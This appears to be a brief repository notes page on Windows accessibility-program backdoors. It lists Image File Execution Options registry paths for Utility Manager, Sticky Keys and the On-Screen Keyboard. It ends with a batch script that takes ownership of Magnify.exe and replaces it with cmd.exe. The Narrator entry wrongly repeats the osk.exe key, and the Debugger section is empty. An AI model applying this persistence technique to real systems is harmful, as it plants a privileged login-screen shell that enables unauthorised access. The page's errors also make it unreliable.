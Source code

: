 # Accessibility Program

## Debugger

```

```

## Utility Manager

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe
```

## Sticky Keys

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe
```

## Accessibility On-Screen Keyboard

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe
```

## Narrator

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe
```

## Magnifier

```batch
REM Quick script to take own, change perm, backup, and replace Magnify.exe with cmd.exe
REM https://fuzzysecurity.com/tutorials/11.html

takeown.exe /f "C:\Windows\System32\Magnify.exe"
icacls.exe "C:\Windows\System32\Magnify.exe" /grant administrators:F
ren "C:\Windows\System32\Magnify.exe" "Magnify_back.exe"
copy "C:\Windows\System32\cmd.exe" "C:\Windows\System32\Magnify.exe"
```